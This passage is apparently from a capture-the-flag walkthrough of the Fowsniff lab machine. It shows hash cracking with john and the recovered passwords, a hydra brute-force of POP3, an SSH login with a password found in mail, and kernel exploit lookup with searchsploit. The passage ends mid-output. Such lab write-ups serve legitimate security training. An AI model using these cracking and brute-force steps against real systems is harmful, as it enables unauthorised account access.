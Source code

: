 
2. Hash Cracking: now after we have the hashs, we can use john or other tool to crack them all, you can also use crackstation.
```
└─$ john hashs.txt --wordlist=./pass.txt --format=Ra
w-MD5
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Ra
w-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consi
der --fork=4
Press 'q' or Ctrl-C to abort, almost any other key f
or status
mailcall         (mauer@fowsniff)     
bilbo101         (mustikka@fowsniff)     
apples01         (tegel@fowsniff)     
skyler22         (baksteen@fowsniff)     
scoobydoo2       (seina@fowsniff)     
carp4ever        (mursten@fowsniff)     
orlando12        (parede@fowsniff)     
07011972         (sciana@fowsniff)     
8g 0:00:00:00 DONE (2022-10-18 05:55) 800.0g/s 1700p
/s 1700c/s 15300C/s mailcall..07011972
Warning: passwords printed above might not be all th
ose cracked
Use the "--show --format=Raw-MD5" options to display
 all of the cracked passwords reliably
Session completed.
```

3. Brute Forcing: sicne we have the users and password, we can use it against the ssh, or pop3 (port 110) or IMAP (port 143), in my case I found the way over port 110:
```
└─$ hydra -L users.txt -P ./pass.txt 192.168.80.18 pop3  
output:
[110][pop3] host: 192.168.80.18   login: seina   password: scoobydoo2
```

4. Initiation: login via pop3 using the user and password found, we can see that we on that user email box, so run several pop3 commands like `LIST`, `RETR 1`, found line that say what is the password for ssh:
```
The temporary password for SSH is "S1ck3nBluff+secureshell"
```
Trying that password with seina user give us nothing, so run the brute force step again with the list of users we have with that password and found that ssh the correct user is `baksteen`, so run ssh with that user and password:
```
└─$ ssh baksteen@192.168.80.18 -p 22         
output:
baksteen@fowsniff:~$
```

5. System Enumeration: running several command for enumerate the system found the following linux version:
```
baksteen@fowsniff:~$ uname -a
Linux fowsniff 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 U
TC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
By running `searchsploit` we can find exploit for that version:
```
└─$ searchsploit 4.4.0 linux kernel 116
----------------------------------------------------------------------
------------------------ ---------------------------------
 Exploit Title                                                        
                        |  Path
----------------------------------------------------------------------
```